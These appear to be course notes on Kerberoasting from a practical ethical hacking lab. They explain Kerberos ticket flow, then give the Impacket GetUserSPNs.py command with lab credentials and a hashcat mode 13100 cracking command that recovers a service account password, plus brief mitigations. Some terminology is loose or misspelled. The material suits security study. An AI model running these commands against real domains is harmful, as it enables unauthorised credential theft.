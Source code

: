 # Kerberoasting

Domain Controller (DC) also known as a 'key distribution centre' (KDC)

User will need to authenticate to the DC

When they do that
1. user will request a TGT (Ticket-Granting-Ticket) and provide/supply the NTLM hash (i.e. a valid user and password)
2. DC receives request and returns a TGT encrypted with a krbtgt (kerberos tgt) hash

Say we have an application server (could be SQL, could be AV, etc.), a service that we would like to access.
This service will have an SPN (Service Principle Name)

To access this service we need to first request a TGS (Ticket-Granting-Service ticket).

3. We present our TGT to the KDC and request a TGS
4. The server knows the server account hash and will encrypt that and sent it back to us 

> KDC does not know if we have access to the server or not
> It will provide to us the TGS with the server account hash
> This is where Kerberoasting starts

WE can get the hash, try to decrypt it or relay it!!

For us to connect to server:

5. Present TGS to the application server 
6. The server decrypts it using its application hash

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/59c52423c6e843b0a0eefe6c506e2c68.png?raw=true)

## The attack

Will use another Impacket module
```
sudo GetUserSPNs.py marvel.local/fcastle:Password1 -dc-ip 10.10.10.6 -request
```

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/9820246638ca4b4ba1361a152880ff9c.png?raw=true)

We get the kbr5tgs hash for the SQL Service we set up before
copy and paste into file

Find which module to use
```
hashcat --help | grep Kerberos
```

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/6a06ced7241a4443b60c75363df6f74e.png?raw=true)

We will use the Kerberos 5 TGS-REP, etype 23 module (13100)

```
sudo hashcat -m 13100 hashes.txt rockyou.txt -O
```

Will find SQL Service domain password (MYpass123!)

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/d8d00fed67f04ec2abc8da612c84c766.png?raw=true)

Which we knew already from our previous attacks (eg. ntlmxrelay.py)

Once you get a credential at all, you can try Kerberoasting

## Kerberoasting Mitigation

We are abusing a feature so there is nothing to defent against it other than:
- strong passwords (not just long)
- least privilege
	- do NOT make domain accounts domain admins
	- do NOT make service accounts administrators

